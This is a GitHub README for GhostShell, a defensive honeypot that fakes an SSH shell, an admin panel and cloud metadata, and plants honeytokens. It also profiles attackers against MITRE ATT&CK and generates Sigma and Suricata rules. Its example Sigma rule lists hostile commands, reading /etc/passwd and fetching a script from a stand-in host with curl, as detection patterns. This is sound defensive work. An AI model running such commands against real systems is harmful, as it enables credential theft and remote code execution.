

<div align="center">

# 👻 GhostShell

### AI-Driven Deception Platform

**Trick attackers. Profile them. Turn their attacks into defence.**

[](https://www.python.org/)
[](LICENSE)
[]()
[](https://github.com/zer0k7)

*A normal honeypot logs logins and dies when an attacker types an unusual command.*
*GhostShell is the whole fake company — and it fights back.*

</div>

---

## ✨ What makes it different

| Normal honeypot | **GhostShell** |
|---|---|
| Logs SSH logins | Logs SSH **+ fake admin panel + fake AWS metadata** — one fake company |
| Scripted shell, breaks on weird commands | **AI fake shell** (local Ollama) answers *any* command like real Linux |
| Just an IP in a log | **Attacker profile**: bot vs human, skill level, intent |
| No context | Auto-mapped to **MITRE ATT&CK** tactics & techniques |
| Watching only | **Honeytokens** — fake AWS keys, `id_rsa`, DB backups that phone home |
| Data dies in a log file | Auto-generates **Sigma + Suricata rules + IOC feed** from real attacks |

---

## 🏗 Architecture



---

## 🚀 Quick start

```bash
git clone https://github.com/zer0k7/GhostShell.git
cd GhostShell

python3 -m venv .venv
.venv/bin/pip install -r requirements.txt
.venv/bin/python run.py
```

| Service | URL | What it is |
|---|---|---|
| 🎯 SSH honeypot | `ssh admin@localhost -p 2222` | Any password works — it is a trap |
| 🌐 Fake admin panel | http://localhost:8081 | Fake Acme Corp portal, any login works |
| 📊 Live dashboard | http://localhost:5000 | Stats, session replay, MITRE, rules, IOC feed |

Try it like an attacker:

```bash
ssh admin@localhost -p 2222   # password: anything, e.g. hunter123
ls
cat aws_credentials.txt       # 🪤 honeytoken — this hit is logged
ps aux
uname -a
```

Then open http://localhost:5000 — your session is there, replayable like a terminal recording.

> **Optional — AI shell:** install [Ollama](https://ollama.com) and run `ollama pull llama3.2:1b`.
> GhostShell will use it to answer unusual commands. If Ollama is not running,
> the rule-based fake shell takes over — nothing breaks.

---

## 📊 Dashboard — what you see

- **Stats cards** — attacker sessions, commands captured, honeytoken hits, unique IPs
- **Sessions table** — IP, credentials tried, profile badge (bot / intermediate / skilled)
- **Terminal replay** — every command + response, exactly as the attacker saw it
- **MITRE profile** — tactics & techniques per session, with a skill score
- **Detection rules** — one click generates a Sigma rule + Suricata rule from that session
- **IOC feed** — `GET /api/ioc` returns attacker IPs + honeytoken hits as JSON

### Example — auto-generated Sigma rule

```yaml
title: GhostShell — suspicious activity from honeypot attacker 185.220.x.x
status: experimental
logsource:
    product: linux
    service: sshd
detection:
    selection:
        src_ip: '185.220.x.x'
        CommandLine|contains:
            - "cat /etc/passwd"
            - "curl http://evil.example/x.sh"
    condition: selection
level: high
```

---

## 🗂 Project layout

```
GhostShell/
├── run.py                    # starts everything: SSH + fake panel + dashboard
├── config.yaml               # ports, fake hostname, Ollama settings
├── requirements.txt
├── ghostshell/
│   ├── honeypot.py           # Paramiko SSH server — accepts ANY password
│   ├── shell.py              # fake shell: ls / cat / ps / whoami / ... + AI fallback
│   ├── fakefs.py             # the fake filesystem, incl. honeytoken files
│   ├── llm.py                # local Ollama AI shell (falls back to rules)
│   ├── services.py           # fake admin panel + fake AWS metadata endpoint
│   ├── db.py                 # SQLite: sessions, commands, honeytoken hits
│   ├── profiler.py           # MITRE ATT&CK mapping + skill scoring
│   ├── rules.py              # Sigma / Suricata generation from attacks
│   └── dashboard.py          # rich HTML dashboard + replay + IOC feed
└── data/
    └── ghostshell.db          # created on first run (gitignored)
```

---

## 🎯 Why this matters for jobs

| Role | What GhostShell proves |
|---|---|
| **SOC Analyst** | You built detections from real attacks, not textbook rules |
| **Pen Tester / Red Team** | You think like an attacker — and like the defender catching them |
| **Security Engineer** | Honeypots, deception, MITRE ATT&CK, Sigma/Suricata, Python, Linux |
| **Threat Intel** | IOC feeds, attacker profiling, TTP extraction |

**Resume line:**

> *Built GhostShell, an AI-driven deception platform that profiles live attackers,
> maps them to MITRE ATT&CK, and auto-generates Sigma detection rules from real attacks.*

---

## ⚠️ Safety — read this

GhostShell is a **defensive research tool** for your own lab only.

- Run it only on your own machine / VM, on localhost or a lab network.
- Never expose ports 2222 / 5000 / 8081 to the public internet.
- Never point it at real systems, real credentials, or real people.
- All secrets in the fake filesystem are **fake** (`FAKEKEY`, `fakehash`) — never use real keys here.

---

## 🛣 Roadmap — all built today

- [x] Core SSH honeypot + fake shell + fake filesystem
- [x] Session + command logging (SQLite)
- [x] Rich HTML dashboard — stats, replay, MITRE, rules, IOC feed
- [x] Fake admin panel + fake AWS metadata endpoint
- [x] Honeytokens (AWS keys, SSH key, DB backup)
- [x] Attacker profiler — MITRE ATT&CK + skill score
- [x] Auto Sigma / Suricata rules + IOC feed
- [x] AI shell via local Ollama (with rule-based fallback)
- [ ] Deploy on a cheap VPS + collect real internet attacks *(your call — lab only for now)*
- [ ] GeoIP map of attacker IPs
- [ ] Auto-blocklist push to firewall

---

<div align="center">

**Built by [Salik Seraj Naik](https://github.com/zer0k7) — zer0k7**
*BTech CSE · Red Team / Offensive Security · TryHackMe Top 1%*

⭐ If you like it, star it. If an attacker likes it, they'll never know it was fake.

</div>
